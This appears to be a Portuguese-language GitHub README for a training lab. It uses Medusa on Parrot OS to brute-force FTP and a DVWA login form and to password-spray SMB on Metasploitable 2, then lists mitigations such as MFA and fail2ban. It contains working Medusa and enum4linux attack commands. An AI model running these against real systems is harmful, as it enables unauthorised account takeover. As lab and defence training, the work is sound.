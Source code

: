 # dio-desafio-medusa-parrot-bruteforce

# Simulação de Ataques de Força Bruta em Ambientes Controlados: Usando Parrot OS e Medusa

Objetivo: simular ataques em FTP, Web e SMB, documentar o processo, propor mitigações

Este projeto prático foi desenvolvido como parte do desafio proposto pela DIO, com o objetivo de simular e documentar ataques de força bruta contra serviços e aplicações web em um ambiente de laboratório controlado.

A simulação utilizou o Parrot OS Security Edition como a plataforma principal de ataque, aproveitando suas ferramentas pré-instaladas, com ênfase na ferramenta Medusa, combinada com a customização de wordlists.

O ambiente de teste consistiu em máquinas virtuais configuradas em uma rede em modo Bridge, tendo como alvos principais:

# Alvo e Serviço: Metasploitable 2 (FTP). 
Objetivo da Simulação: Realizar um ataque de força bruta no serviço FTP (porta 21) para obter credenciais de acesso, demonstrando a vulnerabilidade de serviços com senhas fracas.

# Alvo e Serviço: DVWA (Damn Vulnerable Web Application)
Objetivo da Simulação: Atacar o formulário de login web, simulando a automação de tentativas de login HTTP POST com o Medusa, e entendendo como a segurança da aplicação (níveis de dificuldade) afeta a eficácia do ataque.

# Alvo e Serviço: Metasploitable 2 (SMB)
Objetivo da Simulação: Explorar a enumeração de usuários (utilizando ferramentas como enum4linux ou Nmap) e, em seguida, executar um ataque de password spraying no serviço SMB (porta 445), visando identificar contas com senhas comuns.

# Configuração do Ambiente
Máquinas Virtuais: Metasploitable 2/DVWA).
Software de Virtualização (VirtualBox). 
Configuração de Rede (Bridge).

# Passo a Passo dos Ataques Simulados
Foi criada uma seção para cada serviço atacado (FTP, Web - DVWA, SMB).

A. Ataque a FTP (Serviço vsftpd do Metasploitable 2)
 comando: medusa -h 192.168.1.7 -u msfadmin -P pass.txt -M ftp
 -h: Host Alvo
 -u: Usuário (ou -U para lista de usuários)
 -P: Wordlist de Senhas
 -M: Módulo/Serviço a ser atacado (ftp)


B. Ataque a Formulário Web (DVWA)
 comando: medusa -h 192.168.1.7 -M http -m "Location: index.php" -u "admin" -P wordlist-pass.txt -d "username=^USER^&password=^PASS^&Login=Login" -t 5 -T 1
 -H: Cabeçalho
 -d: Dados do POST, onde ^USER^ e ^PASS^ são os placeholders
 -m: Mensagem de erro (para saber quando falhou)

C. Ataque a SMB (Enumeração de Usuários e Password Spraying)
 comando: enum4linux 192.168.1.10
 Encontra usuários existentes no serviço SMB

 comando: medusa -h 192.168.1.7 -U smb_users.txt -p 'password' -M smb
 -U: Lista de Usuários
 -p: Senha única (para password spraying)

# Wordlists Utilizadas:
pass.txt, users.txt, senhas_spray.txt, smb_users.txt.

# Recomendações de Mitigação
Políticas de senha forte (complexidade, tamanho). - Técnicas: Bloqueio de IP após N tentativas (fail2ban), uso de autenticação de dois fatores (MFA), desativação de serviços não essenciais (ex: FTP/SMB se não usados), monitoramento de logs.

# Conclusão e Reflexões

O desafio prático demonstrou, de forma clara e controlada, a simplicidade e a eficácia do uso de ferramentas open-source, como o Medusa no Parrot OS, na execução de técnicas de força bruta. Em questão de segundos, foi possível evidenciar a vulnerabilidade de serviços que não aderem aos padrões básicos de segurança.

A experiência escancara como é fácil para um atacante utilizar uma *wordlist* personalizada ou pública (derivada de vazamentos históricos de dados) para obter acesso a contas com senhas fracas.

Neste cenário de ameaças, fica evidente que:

Senhas Fortes são a Base, mas Insuficientes: 
A implementação de políticas de senhas robustas é o primeiro e fundamental elo da corrente de segurança.

Autenticação de Dois Fatores (MFA) é Essencial:
A MFA se estabelece não mais como uma camada opcional, mas sim como uma necessidade crítica para defender contas contra ataques de força bruta bem-sucedidos.

Conhecimento Ofensivo para Defesa: Para nós, profissionais de Segurança da Informação, defender sistemas requer um conhecimento elementar e prático destas vulnerabilidades ofensivas. Somente ao entender como os ataques são realizados podemos implementar contramedidas eficazes, como bloqueio de IPs (fail2ban), limitação de rate e monitoramento de logs, garantindo a mitigação e prevenção de acessos indevidos aos nossos ativos.

Este projeto reforça a importância da segurança por design e da constante vigilância contra táticas de ataque que exploram a fragilidade humana e a má configuração de sistemas.


